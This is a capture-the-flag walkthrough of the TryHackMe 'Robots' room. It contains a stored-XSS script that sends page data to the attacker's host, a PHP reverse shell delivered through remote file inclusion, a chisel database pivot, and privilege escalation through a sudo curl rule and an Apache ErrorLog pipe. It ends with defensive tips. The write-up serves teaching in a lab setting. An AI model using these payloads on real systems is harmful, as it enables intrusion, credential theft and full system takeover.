# ROBOTS (THM) – Full Walkthrough & Write‑Up

> **Difficulty:** Hard  
> **Author of write‑up:** David Umoh  
> **Date:** 2025-08-22  
> **Tested on:** Kali (attacker) • Ubuntu Jammy host (target) • Dockerized webapp container

---

## TL;DR

- **Recon:** Nmap shows **22/80/9000** open. `robots.txt` exposes `/harm/to/self` (registration/login).  
- **WebApp Logic:** Initial password is **`md5(username + ddmm)`** of the supplied DOB.  
- **Foothold:** Stored **XSS in registration** → exfil `server_info.php` → steal cookie → **admin.php**.  
- **RFI on admin.php:** Remote include `shell.php` → **reverse shell as `www-data` in a Docker container**.  
- **Lateral (DB):** `getent hosts db` → `db` at **172.18.0.2**. Used **chisel** reverse port‑forward `R:3307=>db:3306` → dump **MariaDB `web.users`**.  
- **Creds → SSH:** Cracked MD5 for `rgiskard` (worked for SSH). Logged in as **`rgiskard@robots.thm`**.  
- **PrivEsc #1 (to `dolivaw`):** `sudo` permits **`/usr/bin/curl 127.0.0.1/*` as user `dolivaw`**. Abuse multi‑URL to read arbitrary files and plant **SSH key** → **SSH as `dolivaw`**.  
- **PrivEsc #2 (root):** `dolivaw` has **`(ALL) NOPASSWD: /usr/sbin/apache2`**. Start apache with a **minimal config** that pipes **ErrorLog** to a root‑running shell to create a **SUID `/tmp/rootbash`** → **root**.  
- **Flags:**  
  - **User flag (dolivaw):** `THM{9b17d3c3{Redacted}a7fa07d8}`  
  - **Root flag:** `THM{2a279561f5e{Redacted}82cee24}`

---

## 1. Scope & Setup

- Target IP: `TARGET_IP` (add `robots.thm` in `/etc/hosts`).  
- Attacker IP: `ATTACKER_IP` (examples below use `10.8.137.194`).  
- All actions performed for learning (TryHackMe)

> `echo "TARGET_IP robots.thm" | sudo tee -a /etc/hosts`

---

## 2. Initial Reconnaissance



The first step in any penetration test is reconnaissance. I ran an **Nmap** scan to discover open ports and services:

```bash
nmap -sCV robots.thm -p-
```

**Open ports found:**

- **22/tcp** – OpenSSH  
- **80/tcp** – Apache  
- **9000/tcp** – Apache default splash / doc page (no direct value)

Enumerate **`robots.txt`** on port 80:

```
Disallow: /harming/humans        → 403
Disallow: /ignoring/human/orders → 403
Disallow: /harm/to/self          → registration/login page
```

Visit **`/harm/to/self`**. There are **login** and **registration** endpoints.

---

## 3. Registration & Login



From reviewing the the information given on the registration page, its pretty easy to generate our password:

- User submits **username** and **date of birth**.
- Backend sets password to **`md5(username + ddmm)`** (day+month).

> Example: username **`tester`**, DOB **`29/08/2005`** → string **`tester2908`** →  
> `md5("tester2908") = b9b0bf8917bd8c86327ad4c31ef090de`

That would be the generated password for that user.

---

## 4. Finding Sensitive Files (XSS Vulnerability)

After registering and logging in, I found a file called `server_info.php` which revealed server configurations. This looked sensitive.

The **registration form** itself was vulnerable to **stored XSS**. To confirm, I used:

```html
<script src="http://10.8.137.194/tester.txt"></script>
```

I hosted this file with Python:

```bash
python3 -m http.server 8000
```

And sure enough, the script executed, confirming stored XSS.

After confirming callbacks, we will weaponize XSS to **exfiltrate** `server_info.php` (and usable cookie) back to our box:

## 5. Exploiting XSS for Cookie Theft



Next, I created a script `xss.js` to exfiltrate cookies:

```javascript
async function exfil() {
    const response = await fetch('/harm/to/self/server_info.php');
    const text = await response.text();

    await fetch('http://10.8.137.194:88/exfil', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: `data=${btoa(text)}`
    });
}

exfil();
```

I hosted it:

```bash
python3 -m http.server 8000
```

Then registered with:

```html
<script src="http://10.8.137.194/xss.js"></script>
```

Finally, I listened on my box:

```bash
nc -lvnp 88
```


This gave me base64-encoded data containing cookies. After decoding with CyberChef, I retrieved a valid **admin session cookie**, & by appending the stolen cookie into my browser session, I accessed `http://robots.thm/admin.php`.

---

## 6. RFI on `admin.php` → Reverse Shell (www-data in container)



The `admin.php` page exposes a single **URL input**. Which is **RFI**-vulnerable. To test, we will use a benign URL to your server:

```
http://ATTACKER_IP:8000/test.txt
```

To weaponize, host a tiny reverse shell:

**`shell.php`**
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/8001 0>&1'");
?>
```

Start web server & listener:

```bash
# in the directory containing shell.php
python3 -m http.server 8000
nc -lvnp 8001
```

Submit to admin form:
```
http://ATTACKER_IP:8000/shell.php
```

**Result:** reverse shell as **`www-data`**.

---

## 7. Container Enumeration → DB Pivot



Container mounts and “db” host discovery:

```bash
cat /etc/mtab
getent hosts db
# → 172.18.0.2 db
```

The **web config** includes DB creds (from `config.php`):

```
$servername = "db";
$username   = "robots";
$password   = "q4qCz1OflKvKwK4S";
$dbname     = "web";
```

No `mysql` client installed in the container, so we used **chisel** for a reverse port forward.

### Chisel Pivot



**Attacker (your box):**
```bash
chisel server -p 8000 --reverse
# Output shows: Reverse tunnelling enabled ... Listening on 0.0.0.0:8000
```

**Target (container):** fetch a chisel binary appropriate for the container, `chmod +x`, then:
```bash
./chisel client ATTACKER_IP:8000 R:3307:db:3306
# server: session#1: tun: proxy#R:3307=>db:3306: Listening
```

**Attacker (local mysql to forwarded port):**
```bash
mysql -h 127.0.0.1 -P 3307 -u robots -p
# password: q4qCz1OflKvKwK4S
```


Dump the `web` database and `users` table, e.g.:
```sql
SHOW DATABASES;
USE web;
SHOW TABLES;
SELECT id,username,password,`group` FROM users;
```

Sample entries observed:
```
MariaDB [web]> SELECT * FROM users;
+----+---------------------------------------------------------+----------------------------------+---------+
| id | username                                                | password                         | group   |
+----+---------------------------------------------------------+----------------------------------+---------+
|  1 | admin                                                   | 3e3d6c2d540d49b1a11cf74ac5a37233 | admin   |
|  2 | rgiskard                                                | dfb35334bf2a1338fa40e5fbb4ae4753 | nologin |
|  3 | tester                                                  | 496a909ee388233b038e8a56658f91ab | guest   |
|  4 | <script src="http://10.8.137.194:8000/xss.js"></script> | 9d26c051b7aa1962537976fb27a64bca | guest   |
+----+---------------------------------------------------------+----------------------------------+---------+
4 rows in set (0.290 sec)
...
```

We already validated the registration logic using `tester` (`md5(username+ddmm)`). For `rgiskard`, we **cracked** the MD5 with `john`:

```bash
echo 'dfb35334bf2a1338fa40e5fbb4ae4753' > rgiskard.hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 rgiskard.hash
# <john recovered a plaintext that worked for SSH>
```

> The cracked plaintext worked for **SSH** (even though the web login blocked `nologin` users).

---

## 8. SSH as `rgiskard` → Abuse Sudo curl Rule (to become `dolivaw`)



SSH in:

```bash
ssh rgiskard@robots.thm
Password: Use cracked password
```

Check sudo:

```bash
sudo -l
# User rgiskard may run the following commands on ubuntu-jammy:
#     (dolivaw) /usr/bin/curl 127.0.0.1/*
```

The sudoers rule **forces the first URL** to match `127.0.0.1/*`, but `curl` accepts **multiple URLs in one command**. We can use **two URLs**: the first satisfies sudoers, the second is a `file://` URL we actually want to read.

### Read arbitrary files as `dolivaw`

```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt
```

**Output includes the HTTP 403 from the first URL and then the local file content from the second URL.**

> **User Flag (Flag #1):**  
> `THM{9b17d3c{Redacted}5a7fa07d8}`

### Plant our SSH key for persistent access

1) Generate a key on the attacker and serve the **public** key:

```bash
ssh-keygen -f id_ed25519 -t ed25519 -N ''
python3 -m http.server 8000
```

2) Use curl’s multi-URL and `-o` to write to **two outputs**: a dummy file and then the real `authorized_keys`:

```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://ATTACKER_IP:8000/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys
```

3) SSH as `dolivaw`:

```bash
ssh -i id_ed25519 dolivaw@robots.thm
```

---

## 9. `dolivaw` → Root via Apache (`NOPASSWD`)

Check sudo again:

```bash
sudo -l
# (ALL) NOPASSWD: /usr/sbin/apache2
```

Running `/usr/sbin/apache2` standalone often errors **“No MPM loaded.”** The trick is to start Apache with a **minimal config** that **loads an MPM** and sets an **ErrorLog** to a pipe that runs as **root**.

Create `/tmp/root.conf`:

```apache
ServerRoot "/etc/apache2"
PidFile /tmp/apache.pid
Listen 1339

LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so

# When apache starts, it'll open ErrorLog as root and execute this pipeline:
ErrorLog "|/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'"
```

Start Apache with that config (no password is asked due to NOPASSWD):

```bash
sudo /usr/sbin/apache2 -f /tmp/root.conf -k start
# AH00558: apache2: Could not reliably determine the server's FQDN... (harmless)
```

Confirm the SUID binary and get a root shell:

```bash
ls -l /tmp/rootbash
# -rwsr-sr-x 1 root root 1396520 Aug 22 00:17 /tmp/rootbash

/ tmp/rootbash -p
whoami
# root
```

Grab the **root flag (Flag #2)**:



```bash
cat /root/root.txt
# THM{2a279561f{Redacted}f3982cee24}
```

---

## 0x09. Detection & Prevention (Blue‑Team Tips)

- **Web:** Input validation, CSP, HttpOnly/SameSite cookies, and strict allowlists in admin tools prevent XSS & RFI.  
- **Containers:** Avoid exposing service names (e.g., `db`) to untrusted pods and require local authn; network segmentation.  
- **DB:** Store passwords with slow KDF (bcrypt/argon2/scrypt) instead of MD5.  
- **Sudo rules:** Avoid wildcarded commands like `curl 127.0.0.1/*`; otherwise attackers can chain multi‑URL tricks.  
- **Services:** If allowing `apache2` via sudo, constrain with a wrapper that enforces safe configs and blocks pipes.

---

## 0x10. Appendix – Handy Commands

```bash
# Recon
nmap -sCV -p- TARGET_IP

# Hostname pinning bypass (if needed)
echo "TARGET_IP robots.thm" | sudo tee -a /etc/hosts

# XSS exfil listener
nc -lvnp 88

# Simple HTTP server
python3 -m http.server 8000

# Reverse shell listener
nc -lvnp 8001

# Chisel
chisel server -p 8000 --reverse
./chisel client ATTACKER_IP:8000 R:3307:db:3306

# MariaDB
mysql -h 127.0.0.1 -P 3307 -u robots -p

# John (MD5)
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash.txt

# PrivEsc via curl sudoers
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://ATTACKER_IP:8000/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys

# Apache2 NOPASSWD root
sudo /usr/sbin/apache2 -f /tmp/root.conf -k start
/tmp/rootbash -p
```

---

## Flags

- **Flag #1 (User – `dolivaw`):** `THM{9b17d3c3{Redacted}5a7fa07d8}`  
- **Flag #2 (Root):** `THM{2a279561f5e{Redacted}82cee24}`

---

## Credits
### LordElMeloi.
